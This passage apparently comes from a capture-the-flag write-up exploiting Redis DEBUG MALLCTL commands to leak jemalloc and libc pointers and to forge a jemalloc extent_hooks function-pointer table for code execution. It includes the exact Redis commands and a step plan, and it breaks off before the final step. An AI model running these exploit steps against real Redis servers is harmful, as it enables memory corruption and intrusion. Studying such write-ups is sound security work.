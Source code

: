 ```
for (i = 0; thread_name[i] != '\0'; i++) {
    char c = thread_name[i];
    if (!isgraph(c) && !isblank(c)) {
        return EFAULT;
    }
}
```
Unforunately, they check the name to ensure the characters are printable. But surely we can find another ctl that doesn't do this check?

```
127.0.0.1:6379> DEBUG MALLCTL arenas.create
(integer) 34
127.0.0.1:6379> DEBUG MALLCTL arena.34.extent_hooks 140527789785616
(integer) 140527789721616
127.0.0.1:6379> DEBUG MALLCTL-STR arena.34.extent_hooks
"\xc0k\x93,\xcf\x7f"
```
Perfect, we create a new heap arena (to avoid screwing the real heap arenas up), and then overwrite this pointer with the address of a got table entry. Then, we read it back as a string and we get a libc pointer!

This is great, but we still don't have PC control. Luckily `extent_hooks` will help us there too. This ctl is expecting to point to an array of *function pointers*. 
```
typedef extent_hooks_s extent_hooks_t;
struct extent_hooks_s {
	extent_alloc_t		*alloc;
	extent_dalloc_t		*dalloc;
	extent_destroy_t	*destroy;
	extent_commit_t		*commit;
	extent_decommit_t	*decommit;
	extent_purge_t		*purge_lazy;
	extent_purge_t		*purge_forced;
	extent_split_t		*split;
	extent_merge_t		*merge;
};
```

We need a way to construct a fake table with our own collection of pointers. I used the `DEBUG LEAK` command.

```
DEBUG LEAK AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Now we have a long screaming buffer at a known offset (well, it's mostly consistent) from our jemalloc leak. (You can check this out on your own in GEF/pwndbg.)

Putting together what we have so far:
1) Leak jemalloc pointer
2) Leak libc pointer by abusing integer/string confusion
3) Write fake `extent_hooks_t` table
4) Overwrite the `extent_hooks_t` table for arena 0.
5) ???
